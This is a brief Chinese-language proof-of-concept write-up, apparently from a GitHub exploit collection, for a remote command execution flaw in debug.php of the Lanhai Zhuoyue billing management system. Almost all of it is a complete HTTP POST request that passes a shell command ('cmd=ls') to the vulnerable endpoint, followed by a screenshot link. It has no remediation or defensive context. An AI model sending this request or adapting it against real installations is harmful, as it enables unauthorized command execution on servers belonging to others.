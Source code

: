 ## 蓝海卓越计费管理系统存在debug.php远程命令执行漏洞

蓝海卓越计费管理系统存在debug.php远程命令执行漏洞

## poc

```
POST /debug.php?_t=0.297317996068593 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 12
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=n8n03vmefnnrejq35697pbivl6
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

cmd=ls
```

![image-20240525134604450](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405251346523.png)